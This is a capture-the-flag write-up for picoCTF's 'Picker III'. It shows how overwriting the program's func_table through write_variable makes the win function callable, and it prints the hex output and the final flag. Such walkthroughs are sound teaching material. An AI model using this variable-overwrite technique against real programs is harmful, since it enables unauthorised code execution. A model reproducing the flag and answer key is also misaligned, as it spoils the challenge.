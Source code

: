 # Picker III

## Description
Can you figure out how this program works to get the flag?  
Connect to the program with netcat: ```$ nc saturn.picoctf.net 50851```

## Challenge Information
**Point Value:** 100
**Category:** Low Level Binary

## Hints
1. Is there any way to modify the function table?

## Solution
We are given a python file, and it seems as though this one has stronger filters over what functions we can pass through to the prompt. Once again the goal is to be able to get the win function to the prompt 
```py
def win():
  # This line will not work locally unless you create your own 'flag.txt' in
  #   the same directory as this script
  flag = open('flag.txt', 'r').read()
  #flag = flag[:-1]
  flag = flag.strip()
  str_flag = ''
  for c in flag:
    str_flag += str(hex(ord(c))) + ' '
  print(str_flag)
```
We see that there is a func_table and that these are the only functions that are allowed to be called
```py
func_table = \
'''\
print_table                     \
read_variable                   \
write_variable                  \
getRandomNumber                 \
'''
```
We can use the function write_variable to change the func_table to something that has the win function in it. However we have to keep the func_table formatted the same, with 4 entries and each entry having 32 characters, otherwise it will not work. Let's print out the table to see the functions
```
==> 1
1: print_table
2: read_variable
3: write_variable
4: getRandomNumber
```
Next we call write_variable, to change the func_table variable.
```
==> 3
Please enter variable name to write: func_table
Please enter new value of variable: "print_table                     read_variable                   write_variable                  win                             "
```
After this we just print out the table again to make sure it worked, and sure enough it has.
```
==> 1
1: print_table
2: read_variable
3: write_variable
4: win
==> 4
0x70 0x69 0x63 0x6f 0x43 0x54 0x46 0x7b 0x37 0x68 0x31 0x35 0x5f 0x31 0x35 0x5f 0x77 0x68 0x34 0x37 0x5f 0x77 0x33 0x5f 0x67 0x33 0x37 0x5f 0x77 0x31 0x37 0x68 0x5f 0x75 0x35 0x33 0x72 0x35 0x5f 0x31 0x6e 0x5f 0x63 0x68 0x34 0x72 0x67 0x33 0x5f 0x63 0x32 0x30 0x66 0x35 0x32 0x32 0x32 0x7d
```
We take this hex and convert it ascii and we have found our flag.

## Flag
picoCTF{7h15_15_wh47_w3_g37_w17h_u53r5_1n_ch4rg3_c20f5222}